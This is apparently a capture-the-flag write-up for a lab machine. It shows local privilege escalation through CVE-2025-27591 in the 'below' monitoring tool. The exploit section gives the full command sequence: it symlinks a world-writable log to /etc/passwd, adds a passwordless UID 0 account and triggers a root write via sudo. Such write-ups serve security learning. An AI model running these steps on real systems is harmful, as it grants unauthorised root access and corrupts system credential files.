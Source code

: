 # CVE-2025-27591
Firstly, I would like to check the `sudo -l`
```
jacob@outbound:~$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*

```
Then let's check the exploit with that
```
https://security.opensuse.org/2025/03/12/below-world-writable-log-dir.html
Below: World Writable Directory in /var/log/below Allows Local Privilege Escalation (CVE-2025-27591)
```

Then let's exploit it
```
Get the current user name and save it in the variable u.
u=$(id -un)

Delete the original log file and prepare to place the malicious symbolic link
rm -f /var/log/below/error_$u.log

Create a symbolic link to point the log file error_$u.log to the sensitive file /etc/passwd
ln -s /etc/passwd /var/log/below/error_$u.log

Construct a fake root user line with the username pwn, no password (two colons ::), UID and GID are both 0, that is, root authority.
echo 'pwn::0:0:root:/root:/bin/bash' > /tmp/pwn_entry

Write the malicious account to /etc/passwd (indirect writing through symbolic links).
cat /tmp/pwn_entry > /var/log/below/error_$u.log

Key step: execute the below command, which writes the log to /var/log/below/error_$u.log with root privileges. At this time, the attacker-controlled content is actually written to /etc/passwd.
sudo /usr/bin/below snapshot --begin now

Try to log in as root using the newly created pwn user (UID 0)
su pwn

The system /etc/passwd is overwritten, and a new user with UID 0 is added;
```

# Description
This Linux machine uses some of the latest vulnerabilities, but the symbolic link vulnerability used for privilege escalation will seriously damage the synchronous use of the machine. At the same time, when the foothold goes to the user, it directly skips the docker escape part. Overall, it is not a very interesting machine.